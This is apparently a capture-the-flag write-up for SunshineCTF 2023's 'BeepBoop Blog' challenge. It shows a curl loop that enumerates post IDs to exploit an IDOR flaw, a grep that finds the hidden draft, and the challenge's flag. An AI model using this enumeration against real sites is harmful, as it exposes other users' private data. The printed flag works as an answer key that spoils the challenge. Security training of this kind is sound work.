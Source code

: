 # BeepBoop Blog
> A few robots got together and started a blog! It's full of posts that make absolutely no sense, but a little birdie told me that one of them left a secret in their drafts. Can you find it?

## Challenge
You are given the URL to the blog https://beepboop.web.2023.sunshinectf.games

## Solution
The web site shows a list of blog posts and you can guess the URL of a single post from the source code. Then download all posts and look for the posts, where the key hidden is true.

```shell
#!/bin/sh

for ((i=1; i<=1024;i=i+1))
do
	curl -k https://beepboop.web.2023.sunshinectf.games/post/$i > $i.json
done
```

```shell
grep \"hidden\":true *.json
608.json:{"hidden":true,"post":"sun{wh00ps_4ll_IDOR}","user":"Robot #000"}
```
